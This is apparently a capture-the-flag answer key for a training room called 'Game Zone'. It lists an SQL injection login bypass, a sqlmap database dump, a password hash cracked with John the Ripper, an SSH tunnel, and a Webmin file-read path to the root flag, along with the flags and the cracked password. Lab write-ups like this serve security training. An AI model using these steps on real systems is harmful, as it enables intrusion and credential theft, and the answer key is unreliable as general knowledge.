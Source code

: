 # Note for the room Game Zone 

## Tasks 

### Task 1 

What is the name of the large cartoon avatar holding a sniper on the forum?

```
Agent 47
```

### Task 2

Use `' or 1=1 -- -` as your username and leave the password blank.

When you've logged in, what page do you get redirected to?

```
portal.php
```

### Task 3 

Intercept the request with burpsuite and save the request to text file. Use sqlmap like so:

```
sqlmap -r test_req.txt --dbms=mysql --dump
```

In the users table, what is the hashed password?

```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```


What was the username associated with the hashed password?

```
agent47
```

What was the other table name?
```
post
```

### Task 4

Crack the pass with johntheripper:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

ANSWER: videogamer124

SSH to the machine to get the flag

```
649ac17b1480ac13ef1e4fa579dac95c
```

### Task 5


How many TCP sockets are running?

```
agent47@gamezone:~$ ss -tulpn
Netid State      Recv-Q Send-Q                                        Local Address:Port                                                       Peer Address:Port              
udp   UNCONN     0      0                                                         *:10000                                                                 *:*                  
udp   UNCONN     0      0                                                         *:68                                                                    *:*                  
tcp   LISTEN     0      80                                                127.0.0.1:3306                                                                  *:*                  
tcp   LISTEN     0      128                                                       *:10000                                                                 *:*                  
tcp   LISTEN     0      128                                                       *:22                                                                    *:*                  
tcp   LISTEN     0      128                                                      :::80                                                                   :::*                  
tcp   LISTEN     0      128                                                      :::22                                                                   :::*  
```
ANSWER: 5

From our local machine, run ssh -L 10000:localhost:10000 <username>@<ip>

What is the name of the exposed CMS?

ANSWER: webmin


What is the CMS version?

```
1.580
```

### Task 6

http://localhost:10000/file/show.cgi/root/root.txt